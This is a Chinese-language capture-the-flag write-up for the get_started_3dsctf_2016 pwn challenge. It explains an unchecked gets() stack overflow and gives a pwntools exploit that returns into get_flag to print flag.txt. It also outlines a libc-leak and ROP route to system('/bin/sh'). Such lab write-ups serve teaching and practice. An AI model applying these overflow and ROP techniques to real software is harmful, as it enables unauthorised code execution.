



## 0x001 程序分析

分析main函数



这个倒也没什么好分析的，程序很短，使用 **get** 接收输入.

## 0x002 漏洞分析

漏洞位于main函数中，在使用 **get** 函数接收输入时，未对输入内容的长度做校验，导致可以使输入内容覆盖到返回地址。

## 0x003 漏洞利用

分析了下程序中的其他函数，发现有个函数 **get_flag**，可以直接读取并打印 **flag.txt** 文件内容。



使用checksec查看程序



程序只开启了NX保护，那么这个漏洞利用就很简单，首先通过溢出覆盖返回地址到 **get_flag** 函数处，然后将两个校验的参数传过去，就可以读取并打印 **flag.txt** 的文件内容获取flag了。（当然也可以直接返回到打开 **flag.txt** 文件的地方，直接读取文件内容，这种方式本地可以，在远程中，由于程序栈空间被破坏，程序异常退出，因此无法打印文件内容）

python3 exp如下：
```
from pwn import *

p = process("./get_started_3dsctf_2016")

# payload = 填充 + get_flag + exit() + get_flag参数1 + get_flag参数2
payload = b"A" * 0x38 + p32(0x80489a0) + p32(0x804E6A0) +  p32(0x308cd64f) + p32(0x195719d1)

p.sendline(payload)

print (p.recv())

```

还有另一种方式，就是通过printf泄露函数的真实地址，使用LibcSearcher或DynELF泄露libc中system及/bin/sh的真实地址，然后就可以通过ROP构造执行system("/bin/sh")指令的payload，可直接获取系统权限。